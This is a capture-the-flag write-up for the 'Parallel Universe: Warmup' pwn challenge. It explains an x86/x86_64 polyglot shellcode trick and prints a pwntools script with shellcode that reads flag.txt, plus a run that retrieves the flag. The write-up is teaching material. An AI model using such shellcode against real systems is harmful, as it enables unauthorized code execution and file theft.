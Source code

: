 # Parallel Universe: Warmup
**Author: PewZ**

**Difficulty: easy**

**Category: pwn**

---

We are given two binaries that read and execute shellcode. We are given a list
of allowed syscalls, and we have to read the flag from `flag.txt`.
The catch is that our shellcode has to simultaneously work on both x86 and
x86_64.

There are many great writeups of other polyglot shellcode challenges, for
example these two:
* https://tcode2k16.github.io/blog/posts/2019-04-08-midnightsunctf-polyshell-writeup/
* https://www.robertxiao.ca/hacking/defcon2018-assembly-polyglot/

In this writeup, we will use a trick from the first writeup that makes it
simple to run shellcode on both x86 and x86_64. The trick is to use the
following opcode: `31c941e2XX`. x86 will interpret it like this:
```asm
xor ecx, ecx
inc ecx
loop XX+5
```

x86_64 however, interprets it like this:
```asm
xor ecx, ecx
loop XX+5
```

Notice the `inc ecx` instruction? This makes x86 skip the jump, while x86_64
will following the jump. `XX` is the distance to jump, so we can construct our
payload like this:

```
31c941e2XX
32-bit shellcode
64-bit shellcode
```

Where `XX` is the length of the 32-bit shellcode. Before sending the payload to
the remote service, we can double-check that it works for both the binaries
separately.

The shellcode used is a simple payload that opens `flag.txt`, reads data from
the returned file descriptor, and writes it back to stdout. We use the region
where our shellcode is located as a buffer for the flag, since it memory is
marked as rwx.

Here is the relevant code from the solution script:
```python
# https://tcode2k16.github.io/blog/posts/2019-04-08-midnightsunctf-polyshell-writeup/
def get_i386():
    context.arch="i386"
    payload = asm("""
    jmp there
here:
    pop ebx /* filename */
    mov ecx, {open_flags}
    mov eax, {sys_open}
    int 0x80

    /* read flag */
    call lol
lol:
    pop esi
    add esi, 0x200
    mov ebx, 0
    mov ecx, esi
    mov edx, 0x40
    mov ebx, eax /* fd from open() */
    mov eax, {sys_read}
    int 0x80

    /* write flag to stdout */
    mov edx, eax
    mov ecx, esi
    mov ebx, 1
    mov eax, {sys_write}
    int 0x80

    xor ebx, ebx
    mov eax, {sys_exit}
    int 0x80
there:
    call here
""".format(sys_open=int(constants.SYS_open),
           sys_exit=int(constants.SYS_exit),
           open_flags=int(constants.O_RDONLY),
           sys_read=int(constants.SYS_read),
           sys_write=int(constants.SYS_write)), arch="i386", os="linux", bits=32) + "flag.txt\x00"

    return payload

def get_amd64():
    context.arch="amd64"
    payload = asm("""
    lea rdi, [rip + flag]
    mov r8, rdi
    mov rsi, {open_flags}
    mov rax, {sys_open}
    syscall

    mov rdi, rax
    add r8, 0x100
    mov rsi, r8
    mov rdx, 0x40
    mov rax, {sys_read}
    syscall

    mov rsi, r8
    mov rdi, 0x1
    mov rdx, rax
    mov rax, {sys_write}
    syscall

    xor rdi, rdi
    mov rax, {sys_exit}
    syscall
flag:
""".format(open_flags=int(constants.O_RDONLY),
            sys_open=int(constants.SYS_open),
            sys_exit=int(constants.SYS_exit),
            sys_read=int(constants.SYS_read),
            sys_write=int(constants.SYS_write)), arch="amd64", os="linux", bits=64) + "flag.txt\x00"
    return payload

sc_32 = get_i386()
sc_64 = get_amd64()
payload = unhex('31c941e2{:x}'.format(len(sc_32)))
payload += sc_32
payload += sc_64
```

Now let's test the script!
```console
$ python2 solve.py
[+] Opening connection to parallel.tghack.no on port 6004: Done
[*] Switching to interactive mode
Please give me some shellcode :))
TG20{parallel_universes_ftw_}
```
